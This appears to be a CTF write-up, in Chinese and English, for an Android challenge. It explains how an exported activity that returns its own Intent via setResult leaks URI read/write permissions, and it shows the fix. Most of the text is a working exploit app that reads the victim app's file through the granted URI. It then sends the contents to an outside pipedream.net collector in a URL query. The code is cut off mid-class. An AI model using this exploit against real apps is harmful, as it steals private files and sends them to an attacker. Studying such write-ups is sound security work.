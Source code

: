 [GHSL-2021-1033: Intent URI permission manipulation in Nextcloud News for Android - CVE-2021-41256 | GitHub Security Lab](https://securitylab.github.com/advisories/GHSL-2021-1033_Nextcloud_News_for_Android/)

[Exploiting content providers through an insecure SetResult implementation | - erev0s.com](https://erev0s.com/blog/exploiting-content-providers-through-an-insecure-setresult-implementation/)

[Android studio 发起网络请求（GET、POST）网络请求的二次封装*爱编程的深柒的博客-CSDN博客*android studio 网络请求](https://blog.csdn.net/qq_45834492/article/details/118147284)

`this.setResult(\-1, this.getIntent());`

导出的activity在设置返回值时没有对`Intent`标志位进行移除，导致返回的Intent可以读写文件，正确做法应该是

```php
 intent.removeFlags(Intent.FLAG\_GRANT\_READ\_URI\_PERMISSION);  
 intent.removeFlags(Intent.FLAG\_GRANT\_WRITE\_URI\_PERMISSION);
```

exp:

```php
package com.bytectf.pwnbronzedroid;  
​  
import androidx.appcompat.app.AppCompatActivity;  
import android.content.Intent;  
import android.os.Bundle;  
import android.net.Uri;  
import android.util.Log;  
import android.widget.TextView;  
import java.io.InputStreamReader;  
​  
public class MainActivity extends AppCompatActivity {  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        setContentView(R.layout.activity\_main);  
        poc();  
    }  
​  
​  
    @Override  
    protected void onActivityResult(int requestCode, int  resultCode, Intent data) {  
        super.onActivityResult(requestCode, resultCode, data);  
​  
        try {  
            Uri ss \= data.getData();  
            InputStreamReader isr \= new InputStreamReader(getContentResolver().openInputStream(ss));  
            char\[\] buf \= new char\[1024\];  
            StringBuffer sb \= new StringBuffer("");  
            while (\-1 != isr.read(buf, 0, 1024)) {  
                sb.append(String.valueOf(buf));  
            }  
            // 读取的内容输入存储到flag  
            String flag \= new String(sb);  
            Log.d("PwnPwn", flag);  
            ((TextView) findViewById(R.id.tv\_show)).setText(new String(sb));  
            //send  
            new Thread() {//网络请求需要在子线程中完成  
                @Override  
                public void run() {  
                    MyRequest request \= new MyRequest();  
                    String res \= request.get("https://eoissnly9385g0q.m.pipedream.net?flag="+ flag);  
                }  
            }.start();  
```